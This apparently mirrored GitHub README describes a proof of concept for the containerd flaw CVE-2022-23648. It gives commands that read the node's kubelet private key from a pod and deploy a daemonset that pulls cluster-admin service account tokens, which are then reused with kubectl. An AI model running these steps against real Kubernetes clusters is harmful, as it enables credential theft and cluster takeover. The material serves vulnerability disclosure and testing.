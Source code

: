 # CVE-2022-23648-POC

POC for CVE-2022-23648

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/raesene](https://github.com/raesene) |
| Url      | [https://github.com/raesene/CVE-2022-23648-POC](https://github.com/raesene/CVE-2022-23648-POC)                                               |
| Stars    | 36                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

## PoC for CVE-2022-23648

This is a proof of concept for [@_fel1x](https://twitter.com/_fel1x)'s CVE-2022-23648. Disclosure info [here](https://bugs.chromium.org/p/project-zero/issues/detail?id=2244), CVE info [here](https://github.com/containerd/containerd/security/advisories/GHSA-crp2-qrr5-8pq7) and a blog with some more information and mitigation ideas [here](https://blog.aquasec.com/cve-2022-23648-containerd-cri-plugin). The `Containerfile` has the info. needed, and you can change the target of the VOLUME to try out different paths.

Easiest way to show it working is to use [KinD](https://kind.sigs.k8s.io/docs/user/quick-start/) which has exploitable images.

## Basic Test procedure

Unless the node somehow has a lot of data in `/var/lib/kubelet/pki`, this should be a safe test.

- `kind create cluster --image=kindest/node:v1.21.1`
- `kubectl create -f pod-manifest.yaml`
- `kubectl exec poctest -- ls /var/lib/kubelet/pki/`

And if you get back files including `kubelet.key` it worked :)

## Try to escalate to cluster-admin

NOTE: **Do not attempt this on a production cluster.  A vulnerable Containerd may duplicate a lot of data into this attack pod and exhaust disk space. Also, this will print cluster-admin SA tokens to pod logs which are likely to get sent to a logging destination in plaintext**

This will run a daemonset that attempts to enumerate all Kubernetes service account tokens on the node and print it to the pod's logs if it's found to be a `cluster-admin` token.

- `kubectl apply -f ds.yaml`
- `kubectl --token="$(kubectl logs -l app=poctest | head -1)" auth can-i '*' '*' -A`

If `yes` is printed, congrats, you have a short-lived `cluster-admin` service account token, run: 

- `kubectl logs -l app=poctest | head -1 | awk -F\. '{print $2}' | base64 -d` to see which SA it is

- `kubectl --token="$(kubectl logs -l app=poctest | head -1)" get pods -A`
- `kubectl --token="$(kubectl logs -l app=poctest | head -1)" auth can-i --list`

## Author

- [Rory McCune @raesene](https://twitter.com/raesene)

## Contributors

- [@BradGeesaman](https://twitter.com/bradgeesaman) - Escalation Daemonset



## Get the content

```
git clone https://github.com/raesene/CVE-2022-23648-POC
cd CVE-2022-23648-POC
```

{% embed url="https://github.com/raesene/CVE-2022-23648-POC" %}

<figure><img src="https://avatars.githubusercontent.com/u/68317?v=4" alt=""><figcaption><p>raesene</p></figcaption></figure>
